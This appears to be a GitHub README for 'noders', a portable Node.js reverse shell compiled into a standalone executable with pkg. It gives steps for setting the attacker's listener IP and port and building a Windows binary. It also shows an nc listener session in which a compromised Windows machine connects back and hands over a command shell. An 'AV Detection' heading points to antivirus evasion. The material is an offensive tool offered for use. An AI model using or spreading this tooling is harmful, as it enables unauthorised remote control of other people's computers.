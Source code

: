 # noders

portable node.js reverse shell using https://github.com/zeit/pkg 

**Usage**

- Update noders.js source listener ip,port, binary (cmd.exe, /bin/sh, etc).
- Compile using pkg to target platform https://github.com/zeit/pkg#targets

Setup
```
node@kali:/opt/noders# npm install -g pkg
root@kali:/opt/noders# pkg -t win noders.js
> pkg@4.4.0
> Fetching base Node.js binaries to PKG_CACHE_PATH
  fetched-v10.15.3-win-x64     [====================] 100%
  fetched-v10.15.3-linux-x64   [====================] 100%
root@kali:/opt/noders# ls
noders.exe  noders.js
```
Listener
```
root@kali:~# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.173] 50053
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Desktop>whoami
whoami
msedgewin10\ieuser

```

**AV Detection**

